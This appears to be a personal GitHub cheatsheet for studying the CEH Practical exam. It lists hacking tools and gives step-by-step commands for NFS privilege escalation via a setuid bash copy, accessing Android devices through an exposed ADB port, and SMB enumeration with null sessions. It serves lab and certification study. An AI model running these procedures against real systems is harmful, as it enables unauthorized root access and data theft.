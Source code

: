 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes


**Priviledge Escalation**
Exploiting misconfigured NFS (port 2049)
•	nmap -sV —p 2049 IP/Subnet
•	sudo apt-get install nfs-common
•	nmap -sV —script=nfs-showmount <Target_IP>
•	check available mounts: showmount -e <Target_IP> -> we will see /home directory
•	mkdir /tmp/nfs
•	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
•	cd /tmp/nfs
•	sudo cp /bin/bash .
•	sudo chmod +s bash -> it will be highlighted in red
•	ls -la
•	sudo df -h
•	sudo chmod +s bash
after them, In another terminal:
•	Access to target using SSH
•	./bash -p and we're root!
•	cd /home
•	ls -la
•	Find the flag: find / -name "*.txt" -ls 2> /dev/null

**ADB Android Hacking** 
Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder
•	Scan adb port: nmap ip -sV -p 5555
•	Connect adb: adb connect IP:5555
•	Access mobile device: adb shell
•	Elevate privilege using: sudo -i (if it is possile)
•	pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders)
•	Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection!
•	We've three elf files, now we need to calcolate entropy for each of them using this command: ent file.elf
•	After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: sha384sum file.elf and consider only the last 4 digits of the hash result.

SMB Connection
.smbclient -L <TARGET_IP> -N
.smbclient -L <TARGET_IP> -U <USER>
.smbclient //<TARGET_IP>/<USER> -U <USER>
.smbclient //<TARGET_IP>/admin -U admin
.smbclient //<TARGET_IP>/public -N #NULL Session
## SMBCLIENT
.smbclient //<TARGET_IP>/share_name
.help
.ls
.get <filename>


